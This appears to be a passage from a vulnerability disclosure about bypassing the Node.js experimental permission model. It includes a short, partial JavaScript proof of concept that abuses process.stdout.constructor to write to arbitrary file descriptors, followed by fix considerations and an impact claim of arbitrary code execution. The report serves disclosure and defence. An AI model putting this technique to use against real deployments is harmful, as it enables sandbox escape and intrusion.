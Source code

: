 ```js
console.log('go!');
process.on('exit', () => {
    process.stdout.constructor(1);
    process.stdout.write("done!\n");
});
try {
    process.stdout.constructor(11);	// no io_uring
} catch {
    process.stdout.constructor(15);     // supports io_uring
}
process.stdout.write(new Uint8Array(sigmsg.buffer));
process.exit();
```

**Fix:**

There are multiple factors to consider when fixing this vulnerability:
1. Filesystem permissions for process-based permissions currently do not implement any defense against already opened file descriptors, implicitly trusting them to be within the enforced permission model. This report proves that this is not the case.
2. Even after exhaustively implementing proper filesystem permissions over already opened file descriptors on `node:fs`, there may be other ways to interact with file descriptor. This report shows one case of using `process.{stdin,stdout,stderr}.constructor` to reset a TTY, enabling arbitrary writes on any file descriptors. It is difficult to check whether or not we've covered all cases.

As such, the reporter currently does not have a concrete idea on a comprehensive fix. Minimizing attack surface by denying access to `process` may be a good starting point.

## Impact

This vulnerability allows attackers to bypass the experimental permission model and gain arbitrary code execution, even under the most restrictive policies and permission models currently available.

## Attachments
- poc.mp4
- repro.tar.gz
